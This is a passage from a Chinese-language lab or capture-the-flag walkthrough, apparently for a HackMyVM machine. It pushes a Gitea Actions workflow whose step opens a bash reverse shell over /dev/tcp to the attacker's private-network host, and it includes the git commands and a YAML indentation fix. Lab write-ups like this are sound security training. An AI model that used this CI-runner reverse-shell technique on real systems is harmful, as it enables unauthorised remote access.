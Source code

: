 <img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403241541077.png" alt="image-20240324134059164" style="zoom: 33%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403241541078.png" alt="image-20240324134425462" style="zoom: 33%;" />

```bash
git clone http://10.0.2.10:3000/dev/revershell.git
cd revershell
mkdir .gitea
cd .gitea
mkdir workflows
cd workflows
vim revershell.yaml
```

```bash
on: [push]
jobs:
	revershell:
		runs-on: run
		steps:
      		- run: /bin/bash -i >& /dev/tcp/10.0.2.4/1234 0>&1
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403241541080.png" alt="image-20240324135221059" style="zoom:50%;" />

尝试提交更改：

```bash
git config user.email "dev@run.hmv"
git config user.name "dev"
git add .
git commit -m "revershell.yaml"
git push origin main
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403241541081.png" alt="image-20240324135455075" style="zoom: 33%;" />

准备反弹的时候发现报错了：

```bash
Workflow config file is invalid. Please check your config file: yaml: line 3: found character that cannot start any token
```

是缩进有问题，改了一下就好了：

```bash
on: [push]
jobs:
  revershell:
    runs-on: run
    steps:
      - run: /bin/bash -i >& /dev/tcp/10.0.2.4/1234 0>&1
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403241541082.png" alt="image-20240324141234434" style="zoom: 33%;" />
